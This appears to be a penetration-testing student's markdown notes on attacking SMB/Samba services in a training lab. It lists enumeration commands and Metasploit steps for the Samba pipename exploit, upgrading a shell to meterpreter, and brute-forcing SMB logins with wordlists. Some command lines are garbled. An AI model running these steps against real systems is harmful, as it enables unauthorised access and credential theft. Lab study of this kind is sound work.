 ### nmblookup

- `nmblookup -A 10.0.1.22`
  - If you get the result `SAMBA-RECON  <20>`
  - That means there is a server running
  - so using `smbclient` we can connect to the server
#### smbclient
- `smbclient -L 10.0.1.22 -N`
- `rpcclient -U "" -N 10.0.1.22`

### Samba 2
- `rpcclient -U "" -N 10.0.1.22`
  - `enumdomusers`
  - `lookupnames admin`
  - `srvinfo`
- `enum4linux -o 10.0.1.22`
- `enum4linux -U 10.0.1.22`
- `smbclient -L 10.0.1.22 -N`
- `msfconsole`
- `use auxiliary/scanner/smb/smb2
- `set RHOSTS 10.0.1.22`
- `exploit`





# exploiting using metasploit framework
- __`search type:exploit name:samba`__
- __`search pipename`__
```
use exploit/Linux/samba/is_know_pipename
exploit
```
ctr+z
upgrading to meterpreter session
```
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set LHOST ech1
set session 1
exploit
```




# SMB (Server Message Block) - 445 TCP, 139 on NetBIOS
  - __used for network file sharing, printer__
  - __SAMBA is the open source linux implementation of SMB__
- __1. We will run smb_login module to find all the valid users and their passwords.__
```
service postgresql start && msfconsole -q
use auxiliary/scanner/smb/smb_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set RHOSTS demo.ine.local
set VERBOSE false
exploit
```
## We have found four valid users and their passwords
- __2.Running psexec module to gain the meterpreter shell..__
```
service postgresql start && msfconsole -q
```